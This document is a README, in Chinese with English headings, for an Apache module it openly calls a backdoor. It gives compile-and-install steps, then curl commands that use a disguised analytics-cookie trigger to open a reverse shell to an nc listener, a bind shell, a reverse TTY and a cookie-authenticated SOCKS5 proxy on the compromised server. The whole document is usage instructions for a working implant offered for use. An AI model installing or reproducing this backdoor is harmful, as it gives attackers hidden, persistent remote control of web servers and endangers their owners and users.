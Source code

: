 # Apache backdoor
### 安装
1. wget 
2. sudo apxs -i -a -c mod_image.c sblist.c sblist_delete.c server.c -Wl,-lutil
3. sudo a2enmod image
4. sudo systemctl restart apache2
5. 无命令apxs需要安装 sudo apt-get install apache2-dev
### 利用
#### 反向shell
nc监听
 nc -lvp 1337
 
vps执行
curl -H 'Cookie: Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297' http://127.0.0.1/redirect/127.0.0.1/1337/bash

#### 正向
curl -H 'Cookie: Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297' http://127.0.0.1/bind/1337
nc 127.0.0.1 1331

#### 反向TTY
curl -H 'Cookie: Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297' http://127.0.0.1/revtty/127.0.0.1/1337

#### Socket5
1. curl -H 'Cookie: Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297' http://172.16.145.153/proxy/1337/vlad
2. curl -x socks5://vlad:Hm_lpvt_8b02a318fde5831da10426656a43d0=1578566297@<172.16.145.153>:1337 https://www.google.com
3. 代理取消echo "imdonewithyou" | nc 172.16.145.153 1337
